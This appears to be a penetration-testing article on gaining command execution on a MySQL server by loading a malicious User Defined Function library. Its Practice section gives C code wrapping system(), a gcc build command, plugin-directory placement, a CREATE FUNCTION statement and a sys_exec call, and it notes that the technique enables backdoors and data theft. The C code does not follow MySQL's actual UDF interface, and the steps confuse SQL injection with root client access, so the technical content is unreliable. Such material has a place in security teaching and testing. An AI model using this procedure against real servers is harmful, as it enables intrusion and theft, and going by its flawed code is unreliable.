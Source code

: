 ```yaml
---
title: Execute Commands via MySQL UDF Library
description: Learn to exploit MySQL User Defined Functions for command execution.
keywords:
- MySQL
- UDF Library
- command execution
- user defined functions
- security vulnerability
- sys_exec
- malicious UDF
---
```


# COMMAND - UDF Library

## Context

This article explores the technique of executing commands on a MySQL server through the use of User Defined Functions (UDF) libraries. The objective is to understand how attackers can exploit this method to execute arbitrary commands if the server is not properly secured. This topic assumes knowledge of user-defined functions and general command execution techniques.

## Theory

### User Defined Functions (UDF) in MySQL

User Defined Functions (UDFs) are custom functions that developers can add to MySQL servers to extend their features beyond what is available natively. These functions are implemented in a shared library and then linked to the MySQL server. Typically, UDFs are used to perform complex calculations or extend functionality. However, if the MySQL server is not properly configured, UDFs can be leveraged to execute arbitrary system-level commands.

#### Vulnerability Model

The security risk lies in the ability to upload and execute custom UDFs. If the attacker gains access to upload files and creates a UDF that includes malicious code, they can execute commands on the server. This vulnerability arises particularly in environments where user access control and file permissions are not stringently managed.

### Command Execution via UDF

To execute a command using a UDF, an attacker typically follows a sequence of steps:

1. **Upload a Malicious UDF Library:** The attacker compiles a shared object library containing the malicious UDF and uploads it to a location accessible by the MySQL server.

2. **Invoke the UDF:** Once the library is in place, the attacker can create a MySQL function linked to this library and invoke it to execute system commands.

## Practice

### Command Execution via UDF Library

This section explains how to execute commands on a MySQL server using a UDF library. It details the necessary steps to achieve command execution if the server's security controls are inadequate.

- First, write a C program that implements the desired system execution function. Here is a simple example of the C code (`udf.c`):

  ```c
  #include <stdlib.h>

  int sys_exec(const char *command) {
      return system(command);
  }
  ```

- Compile this code into a shared object file that can be loaded by the MySQL server:

  ```bash
  gcc -shared -o libudf.so -fPIC udf.c
  ```

- Copy or upload the compiled `libudf.so` file to a directory where MySQL can load it. Commonly, this would be a directory MySQL has write permissions to such as `/usr/lib/mysql/plugin`.

- Create a new UDF via the SQLi using the uploaded shared object:

  ```bash
  mysql -u root -p -e "CREATE FUNCTION sys_exec RETURNS INTEGER SONAME 'libudf.so';"
  ```

- You can now execute system commands via the sqli using the new UDF. For instance, to check the current user ID, you can execute:

  ```bash
  SELECT sys_exec('id');
  ```

#### Result

Executing the steps above will allow you to execute any system-level command on the MySQL server where the UDF was created. Through the UDF, attackers gain the ability to manipulate or extract data, create persistent backdoors, or further exploit the network.

## Tools

- **gcc**: A compiler to create shared object files from C source code.
- **mysql client**: Command-line tool to connect to the MySQL server and execute SQL queries.
